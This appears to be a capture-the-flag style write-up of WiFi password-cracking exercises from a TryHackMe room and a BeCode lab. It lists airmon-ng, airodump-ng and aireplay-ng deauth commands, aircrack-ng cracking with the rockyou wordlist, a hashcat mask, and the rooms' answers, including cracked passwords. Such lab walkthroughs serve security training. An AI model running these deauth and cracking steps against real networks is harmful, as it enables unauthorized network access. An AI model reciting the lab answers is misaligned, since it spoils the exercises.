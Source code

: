 How do we create a HCCAPX in order to use hashcat to crack the password?
> -j

Using the rockyou wordlist, crack the password in the attached capture. What's the password?
> greeneggsandham

Command:
> aircrack-ng -w /usr/share/wordlists/rockyou.txt files/NinjaJc01-01.cap

Where is password cracking likely to be fastest, CPU or GPU?
> GPU

## BeCode Exercice Writeup

During the first exercice it was pretty much the same as the TryHackMe room, we perform a deauth attack to capture the handshake.

We put the interface in monitor mode:
> sudo airmon-ng start wlan0

We dump the networks:
> sudo airodump-ng wlan0mon --bssid XX:XX:XX:XX:XX:XX

Generate some traffic:
> sudo aireplay-ng -a XX:XX:XX:XX:XX:XX --deauth 1 wlan0mon

Crack password with rockyou:
> aircrack-ng -w /usr/share/wordlists/rockyou.txt wpacrack-01.ivs

We get the password:
> hellokitty

The second exercice was a hashcat mask attack, the mask was ?u?d?l?l?u?l?s?s

See [this tutorial](https://www.4armed.com/blog/perform-mask-attack-hashcat/) to run a mask attack with hashcat.
